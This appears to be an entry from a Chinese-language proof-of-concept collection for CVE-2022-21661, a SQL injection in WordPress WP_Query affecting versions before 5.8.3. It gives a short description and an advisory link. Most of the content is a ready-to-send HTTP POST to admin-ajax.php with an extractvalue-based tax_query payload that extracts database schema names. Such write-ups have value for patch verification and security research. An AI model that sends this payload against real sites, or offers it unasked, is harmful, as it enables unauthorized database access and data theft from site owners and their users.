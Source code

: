 # 

# WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考链接：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```

![image-20220623160952210](./images/202206231609284.png)

